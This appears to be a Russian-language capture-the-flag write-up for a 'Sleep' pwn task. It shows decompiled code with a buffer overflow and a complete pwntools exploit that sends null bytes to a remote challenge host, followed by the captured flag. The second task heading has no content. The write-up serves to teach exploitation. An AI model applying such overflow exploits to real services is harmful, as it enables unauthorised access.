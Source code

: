 # PWN. Analysis of tasks solving from forkbomb

* Sleep
* Auto Overflow 1

## Sleep
Откроем исполняемчый файл в Cutter и в функции `main` увидим следующее:
```
    undefined8 main(void)
    {
    char *buf;
    int s;
    
    alarm(5);
    s = 0x400;
    printf("Enter your name: ");
    read(0, &buf, 0x400);
    printf("Hello %s! You will get your flag in %d seconds\n", &buf, s);
    sleep(s);
    system("cat /flag");
    return 0;
    }
```
Проанализировав код, приходим к выводу, что необходимо перетереть переменную `s`, отвечающую за время, через которое нам выдадут флаг.
Также это нужно сделать менее, чем за 5 секунд, ведь, из-за команды `alarm(5)`, программа завершится. Напишем следующий эксплойт при помощи `pwntools`:
```
from pwn import *

exe = context.binary = ELF('./path-to-binary')

host = args.HOST or '109.233.56.90'
port = int(args.PORT or 11576)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    else:
        return process([exe.path] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

gdbscript = '''
tbreak main
continue
'''.format(**locals())

io = start()
io.recvuntil(b'Enter your name: ')
load = b'\0'*272
io.send(load)
io.interactive()

```
Теперь осталось лишь запустить эксплойт: `python3 exploit-name.py` и получить **флаг: spbctf{beep_boop_overflow_int_variable}**

## Auto Overflow 1
